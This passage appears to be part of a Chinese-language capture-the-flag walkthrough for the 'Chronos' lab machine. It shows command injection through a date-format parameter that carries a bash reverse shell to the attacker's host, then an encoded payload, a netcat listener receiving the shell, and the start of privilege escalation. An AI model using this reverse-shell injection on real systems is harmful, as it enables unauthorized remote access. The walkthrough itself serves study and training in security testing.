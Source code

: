     ```python
    '+Today is TESTTEST %A, %B %d, %Y %H:%M:%S.' | bash -c "bash -i >& /dev/tcp/192.168.56.10/1234 0>&1"
    ```
    
    编码后得到
    
    ```python
    2XHxFqgRgHdnuw7ymykTgiqjFXsf7ew4NHNWzh32oWPcBSFmAv79MRw4ezcAFwUUe6V4GMCkMRUE7T3Lc6JBiNLaBMPiw9rTgpKdigK4HxoDBDDYcfF7bTLgcaRMj63ozzHBCUA6M
    ```
    
2. `kali`开启监听，然后抓包将参数替换，可以发现已经反弹成功了
    
    ```python
    ┌──(root㉿kali)-[~/Desktop]
    └─# nc -lvp 1234                                
    listening on [any] 1234 ...
    
    connect to [192.168.56.10] from chronos.local [192.168.56.7] 41632
    bash: cannot set terminal process group (808): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@chronos:/opt/chronos$ 
    www-data@chronos:/opt/chronos$ 
    ```
    

## 提权

1. 查看权限
    
    ```python
    www-data@chronos:/opt/chronos$ whoami
    www-data
    www-data@chronos:/opt/chronos$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    www-data@chronos:/opt/chronos$ uname -a
    Linux chronos 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
    ```
    
2. 寻找突破点
    - `SUID`，无可利用
    - `/opt/`下存在`chronos-v2`文件夹（靶机下存在这些文件夹，大概是突破口了），查看其后端文件夹`/opt/chronos-v2/backend`
        
        存在`server.js` 
        
        ```python
        # server.js 
        const express = require('express');
        const fileupload = require("express-fileupload");
        const http = require('http')
        
        const app = express();
        